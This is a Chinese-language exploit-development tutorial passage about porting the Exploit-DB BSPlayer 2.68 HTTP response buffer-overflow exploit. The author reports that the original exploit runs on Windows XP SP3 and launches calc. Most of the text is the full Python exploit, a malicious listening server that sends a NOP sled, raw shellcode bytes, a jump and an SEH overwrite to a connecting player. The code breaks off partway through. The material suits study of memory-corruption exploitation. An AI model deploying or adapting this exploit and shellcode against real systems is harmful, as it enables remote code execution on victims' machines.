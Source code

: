 ## 移植针对TCP客户端漏洞的ExP

本次我们将根据[Bsplayer 2.68 - HTTP Response Universal](https://www.exploit-db.com/exploits/36477/)编写ExP，作者也上传了存在漏洞的应用程序。

漏洞程序是BSplayer播放器，当用户使用它打开一个URL去播放视频时，可能发生缓冲区溢出。原ExP语言为Python。

### 原ExP有效性测试

我使用的环境是Windows XP SP3，没有修改任何内容，直接运行原ExP，竟然可以弹计算器。

```py
#!/usr/bin/python

import socket
import sys
s = socket.socket()         # Create a socket object
if(len(sys.argv) < 3):
  print "[x] Please enter an IP and port to listen to."
  print "[x] " + sys.argv[0] + " ip port"
  exit()
host = sys.argv[1]	    # Ip to listen to.
port = int(sys.argv[2])     # Reserve a port for your service.
s.bind((host, port))        # Bind to the port
print "[*] Listening on port " + str(port)
s.listen(5)                 # Now wait for client connection.
c, addr = s.accept()        # Establish connection with client.
# Sending the m3u file so we can reconnect to our server to send both the flv file and later the payload.
print(('[*] Sending the payload first time', addr))
c.recv(1024)
#seh and nseh.
buf =  ""
buf += "\xbb\xe4\xf3\xb8\x70\xda\xc0\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x33\x31\x58\x12\x83\xc0\x04\x03\xbc\xfd\x5a"
buf += "\x85\xc0\xea\x12\x66\x38\xeb\x44\xee\xdd\xda\x56\x94"
buf += "\x96\x4f\x67\xde\xfa\x63\x0c\xb2\xee\xf0\x60\x1b\x01"
buf += "\xb0\xcf\x7d\x2c\x41\xfe\x41\xe2\x81\x60\x3e\xf8\xd5"
buf += "\x42\x7f\x33\x28\x82\xb8\x29\xc3\xd6\x11\x26\x76\xc7"
buf += "\x16\x7a\x4b\xe6\xf8\xf1\xf3\x90\x7d\xc5\x80\x2a\x7f"
buf += "\x15\x38\x20\x37\x8d\x32\x6e\xe8\xac\x97\x6c\xd4\xe7"
buf += "\x9c\x47\xae\xf6\x74\x96\x4f\xc9\xb8\x75\x6e\xe6\x34"
buf += "\x87\xb6\xc0\xa6\xf2\xcc\x33\x5a\x05\x17\x4e\x80\x80"
buf += "\x8a\xe8\x43\x32\x6f\x09\x87\xa5\xe4\x05\x6c\xa1\xa3"
buf += "\x09\x73\x66\xd8\x35\xf8\x89\x0f\xbc\xba\xad\x8b\xe5"
buf += "\x19\xcf\x8a\x43\xcf\xf0\xcd\x2b\xb0\x54\x85\xd9\xa5"
buf += "\xef\xc4\xb7\x38\x7d\x73\xfe\x3b\x7d\x7c\x50\x54\x4c"
buf += "\xf7\x3f\x23\x51\xd2\x04\xdb\x1b\x7f\x2c\x74\xc2\x15"
buf += "\x6d\x19\xf5\xc3\xb1\x24\x76\xe6\x49\xd3\x66\x83\x4c"
buf += "\x9f\x20\x7f\x3c\xb0\xc4\x7f\x93\xb1\xcc\xe3\x72\x22"
buf += "\x8c\xcd\x11\xc2\x37\x12"

jmplong = "\xe9\x85\xe9\xff\xff"
nseh = "\xeb\xf9\x90\x90"
# Partially overwriting the seh record (nulls are ignored).
seh = "\x3b\x58\x00\x00"
buflen = len(buf)
response = "\x90" *2048 + buf + "\xcc" * (6787 - 2048 - buflen) + jmplong + nseh + seh #+ "\xcc" * 7000
c.send(response)
c.close()
c, addr = s.accept()        # Establish connection with client.
# Sending the m3u file so we can reconnect to our server to send both the flv file and later the payload.
```